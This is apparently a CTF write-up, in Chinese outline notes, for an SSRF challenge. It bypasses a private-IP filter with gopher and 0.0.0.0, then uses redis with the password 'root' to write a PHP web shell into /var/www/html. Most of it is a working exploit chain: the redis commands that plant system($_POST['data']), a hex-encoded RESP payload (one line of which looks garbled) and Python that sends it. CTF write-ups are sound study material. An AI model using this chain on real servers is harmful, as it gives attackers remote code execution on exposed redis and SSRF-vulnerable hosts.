 - # 思路
	- 绕过题目的IP检测进行SSRF, 先打hint.php, 然后打带密码的redis
- # 绕过IP检测
	- 题目会检测IP和请求类型
		- `ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;`
		- `$match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);`
	- 可以使用gopher配合`0.0.0.0`访问本地，绕过检测
- # hint.php
	- `file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);`
	- 提示redis的密码是root
- # 带密码的redis
	- 首先在本地打开redis客户端和服务端，tcpdump抓包
		- `tcpdump -i lo -s 0 port 6379 -w redis.pcap`
	- 本地客户端操控本地服务端，tcp流被tcpdump记录
		- ```redis
		  set evilkey "\n\n<?php\nsystem($_POST['data']);\n?>\n\n"
		  config set dir /var/www/html/
		  config set dbfilename redis.php
		  save
		  ```
	- 用wireshark打开包，追踪TCP流，仅显示客户端发送的字符，以Raw格式显示，此时屏幕上的16进制数据就是客户端发送的字符，按照TCP包换行
		- ![Screenshot_2023-02-06_22-10-44.png](../assets/Screenshot_2023-02-06_22-10-44_1675692661358_0.png)
	- 将raw格式的数据转换成urlencode的数据，放入gopher协议中，发送
		- ```python
		  s = """
		  2a310d0a24370d0a434f4d4d414e440d0a
		  2a320d0a24340d0a617574680d0a24340d0a726f6f740d0a
		  2a330d0a24330d0a7365740d0a24370d0a6576696c6b65790d0a2433360d0a0a0a3c3f7068700a73797374656d28245f504f53545b2764617461275d293b0a3f3e0a0a0d0a
		  2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a24330d0a6469720d0a2431340d0a2f7661722f7777772f68746d6c2f0d0a
		  2a320d0a24310d0a650d0a24390d0a72656469732e7068700d0a
		  2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a2431300d0a646266696c656e616d650d0a24390d0a72656469732e7068700d0a
		  2a310d0a24340d0a736176650d0a
		  """.replace("\n", "")
		  
		  redis_payload = enc_dec.long_to_bytes(int(s, 16))
		  redis_payload = "gopher://0.0.0.0:6379/_" + enc_dec.urlencode(redis_payload)
		  r = base_get(url, params = {
		      "url": redis_payload
		  })
		  print(r.text)
		  ```
-